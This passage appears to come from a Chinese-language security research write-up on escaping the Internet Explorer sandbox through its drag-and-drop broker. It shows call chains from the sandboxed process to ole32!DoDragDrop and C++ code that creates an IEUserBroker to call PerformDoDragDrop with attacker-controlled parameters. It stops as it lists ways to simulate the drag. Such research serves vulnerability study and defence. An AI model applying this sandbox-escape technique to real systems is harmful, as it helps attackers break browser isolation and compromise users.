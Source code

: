     
    
    #!c++
    MSHTML!CDoc::DoDrag
    -->MSHTML!CDragDropManager::DoDrag
    -->combase!ObjectStubless
        --> … 发送ALPC消息给IE主进程
    

IE主进程：

    
    
    #!c++
    … 接收IE子进程发来的ALPC消息
        -->RPCRT4!Invoke
    -->IEFRAME!CShdocvwBroker::PerformDoDragDrop
                -->IEFRAME!CShdocvwBroker::PerformDoDragDropThreadProc
                    -->ole32!DoDragDrop
    

# 0x05 IE沙箱对拖拽操作的安全限制

* * *

在IE沙箱中，我们是可以直接调到Broker中的函数的。通过自己创建一个IEUserBroker，再由IEUserBroker创建一个ShdocvwBroker，我们就可以调到主进程中的IEFRAME!CShdocvwBroker::PerformDoDragDrop函数。调用的实现方法大致如下：

    
    
    #!c++
    typedef HRESULT(__stdcall *FuncCoCreateUserBroker)(IIEUserBroker **ppBroker);
    IIEUserBrokerPtrCreateIEUserBroker()
    {
        HMODULE hMod = LoadLibraryW(L"iertutil.dll");
        FuncCoCreateUserBrokerCoCreateUserBroker;
        CoCreateUserBroker = (FuncCoCreateUserBroker)GetProcAddress(hMod, (LPCSTR)58);
        if (CoCreateUserBroker)
        {
            IIEUserBrokerPtr broker;
            HRESULT ret = CoCreateUserBroker(&broker);
            return broker;
        }
        return nullptr;
    }
    
    IIEUserBrokerPtr broker = CreateIEUserBroker();
    IShdocvwBroker* shdocvw;
    broker->BrokerCreateKnownObject(clsid_CIERecoveryStore, _uuidof(IRecoveryStore), (IUnknown**)&shdocvw);
    shdocvw->PerformDoDragDrop(HWND__ *,IEDataObjectWrapper *,IEDropSourceWrapper *,ulong,ulong,ulong *,long *);
    

拖拽功能最终是调用ole32!DoDragDrop函数来实现的，DoDragDrop所需的参数都可以由PerformDoDragDrop函数传入（参考0x03章节中DoDragDrop函数的参数信息）。至此，我们已经可以从沙箱内直接走到沙箱外的ole32!DoDragDrop函数，且传入参数可控。而要模拟鼠标拖拽操作，有两个思路：

  1. 使用0x02章节中所讲的直接调用ole32.dll内部函数的方法；
  2. 调用API改变鼠标位置。
